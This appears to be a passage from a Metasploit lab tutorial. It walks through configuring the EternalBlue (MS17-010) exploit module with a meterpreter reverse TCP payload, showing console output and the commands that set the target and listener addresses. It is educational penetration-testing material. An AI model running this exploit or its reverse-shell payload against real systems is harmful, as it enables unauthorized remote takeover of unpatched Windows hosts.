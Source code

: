 ```

#### The show options command
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.44.70      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

As you can see in the screenshot above, some of these parameters require a value for the exploit to work. Some required parameter values will be pre-populated, make sure you check if these should remain the same for your target. For example, a web exploit could have an RPORT (remote port: the port on the target system Metasploit will try to connect to and run the exploit) value preset to 80, but your target web application could be using port 8080.

In this example, we will set the RHOSTS parameter to the IP address of our target system using the set command.

#### A Meterpreter command prompt
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.165.39
rhosts => 10.10.165.39
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.165.39     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.
